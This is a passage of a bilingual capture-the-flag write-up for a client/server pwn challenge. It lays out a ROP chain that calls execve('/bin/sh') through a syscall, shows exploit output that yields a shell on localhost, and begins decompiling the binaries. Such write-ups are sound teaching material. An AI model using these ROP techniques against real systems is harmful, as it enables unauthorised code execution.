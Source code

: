 Ensuite, nous allons faire execve("/bin/sh", NULL, NULL) :
- pop rax → 0x3b (numéro de syscall pour execve)
- pop rdi → 0x4b2000 (adresse de "/bin/sh")
- pop rsi → 0x0 (argv = NULL)
- pop rdx → 0x0 (envp = NULL)
- syscall


```bash
$ python sol.py 
[+] Opening connection to localhost on port 4444: Done
[*] Switching to interactive mode
$ ls
/bin/sh: 1: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDls: not found
$ whoami
user
```

## Write-up EN
We have two files, `client` and `server`, both of which are ELF x86_64 executables with no canary, NX enabled, and no PIE.

When executing `server` and `client`, we observe that these programs exchange a file over TCP.

We will analyze their behavior using Ghidra/IDA.

Here is the main function of the client :
```c
bool FUN_00401d71(int param_1,undefined8 *param_2)

{
  undefined4 uVar1;
  
  if (param_1 == 3) {
    uVar1 = FUN_00401a85(param_2[1]);
    FUN_00401b62(uVar1,param_2[2]);
    FUN_00421780(uVar1);
  }
  else {
    FUN_00405250(_DAT_004b36c8,&UNK_00487088,*param_2);
  }
  return param_1 != 3;
}
```
The function `FUN_00401a85` establishes a TCP connection with the server.
Then, `FUN_00401b62` sends a file to the server by transmitting the following data:

- The file size followed by a newline (\n).
- The file content.

However, if the file size exceeds `0x400` bytes, the transfer is aborted, and the program terminates.
Here is the main function of the server :
```c
undefined8 FUN_00401cf2(void)

{
  undefined4 uVar1;
  undefined4 uVar2;
  
  uVar1 = FUN_00401975(0x115c);
  uVar2 = FUN_00401a9f(uVar1);
  FUN_00401cba(uVar2);
  FUN_0041d860(uVar1);
  return 0;
}
```